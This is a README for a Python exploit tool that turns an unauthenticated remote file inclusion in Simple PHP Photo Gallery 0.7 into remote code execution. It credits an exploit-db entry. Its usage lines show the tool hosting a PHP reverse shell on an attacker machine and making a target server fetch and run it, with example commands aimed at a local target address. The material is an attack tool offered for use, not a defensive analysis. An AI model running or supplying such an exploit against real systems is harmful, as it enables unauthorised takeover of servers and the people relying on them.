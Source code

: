 # SimplePHPGal-RCE.py RFI --> RCE
Simple PHP Photo Gallery 0.7 is vulnerable to Unauthenticated RFI. This script will attempt to turn that into RCE by automatically hosting a PHP reverse shell and then calling that shell back. The attacker still needs to catch the shell with netcat or something similar. 

Credit: https://www.exploit-db.com/exploits/48424

python3 SimplePHPGal-RCE.py -h
usage: SimplePHPGal-RCE.py [-h] [--httpport HTTPPORT] url attackerip attackerport

This script uses an RFI in SimplePHPGal to get RCE

python3 SimplePHPGal-RCE.py http://192.168.1.12/ 192.168.1.5 4444

python3 SimplePHPGal-RCE.py http://192.168.1.12/ 192.168.1.5 4444 --httpport 8080

positional arguments:
  url                  The URL of the target.
  attackerip           Kali IP address for reverse shell and http server
  attackerport         Port for the reverse shell.

optional arguments:
  -h, --help           show this help message and exit
  --httpport HTTPPORT  Port for the http server. Default 80
